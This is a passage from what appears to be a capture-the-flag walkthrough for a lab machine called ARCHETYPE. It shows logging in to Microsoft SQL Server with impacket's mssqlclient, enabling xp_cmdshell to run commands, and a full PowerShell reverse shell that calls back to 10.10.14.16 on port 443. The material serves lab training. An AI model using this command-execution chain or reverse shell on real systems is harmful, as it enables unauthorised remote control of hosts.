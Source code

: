 
``` shell
python3 /usr/share/doc/python3-impacket/examples/**mssqlclient.py** ARCHETYPE/sql\_svc@10.10.10.27 -windows-auth

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands

SQL>
```
We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. Luckily we do have sysadmin privileges and we can now enable xp_cmdshell and gain RCE (remote code execution) on the host. Let's attempt this, by inputting the commands below:

1.    EXEC sp_configure 'Show Advanced Options', 1;

2.    reconfigure;

3.    EXEC sp_configure 'xp_cmdshell', 1

4.    reconfigure;

5.    xp_cmdshell "whoami"


``` script
SQL>EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
....
SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                       
-------------------------------------------------------------------------------- 
archetype\sql_svc
                                                              
NULL

```

The whoami command output reveals that the SQL Server is also running in the context of the user **ARCHETYPE\sql_svc**. However, this account doesn't seem to have administrative privileges on the host. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as **shell.ps1**.

```script
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.16",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()

```